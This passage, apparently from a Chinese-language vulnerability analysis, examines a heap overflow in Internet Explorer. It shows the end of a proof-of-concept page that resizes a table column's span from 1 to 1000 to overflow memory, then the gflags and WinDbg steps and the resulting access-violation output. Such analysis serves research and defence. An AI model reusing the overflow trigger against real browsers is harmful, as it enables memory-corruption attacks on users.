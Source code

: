 			obj_col.span = 1000;

		}

	setTimeout("over_trigger();",1);

	</script>

	</body>

	</html>

先把span赋值为1然后在over_trigger运行后把span赋值1000造成溢出。

在调试前先用gflag.exe对IE开启hpa选项，如果直接在windbg附加之后用命令开启会失败。

Debuggers>gflags.exe -i IExplorer +hpa

Current Registry Settings for IExplorer executable are: 02000000

hpa - Enable page heap

打开windbg附加IE。

先看一下，确实已经开启了hpa

	0:000> !gflag

	Current NtGlobalFlag contents: 0x02000000

	hpa - Place heap allocations at ends of pages

这里还需要注意，要开启子进程调试，因为windbg默认情况下是不支持子进程调试的，但在这里IE运行的时候又会衍生出子进程。

	0:000> .childdbg 1

	Processes created by the current process will be debugged

运行之后拖入poc.html，程序断在了这里。

	0:000> g

	(988.d9c): Break instruction exception - code 80000003 (first chance)

	eax=7ffd4000 ebx=00000001 ecx=00000002 edx=00000003 esi=00000004 edi=00000005

	eip=7c92120e esp=23d6ffcc ebp=23d6fff4 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=0038 gs=0000 efl=00000246

	ntdll!DbgBreakPoint:

	7c92120e cc int 3

	0:031> g

	(988.95c): Access violation - code c0000005 (first chance)

	First chance exceptions are reported before any exception handling.

	This exception may be expected and handled.

	eax=00000009 ebx=00414114 ecx=04141149 edx=00004141 esi=00349000 edi=00349018

	eip=3dea32cc esp=0643bed8 ebp=0643bee4 iopl=0 nv up ei pl nz na pe nc
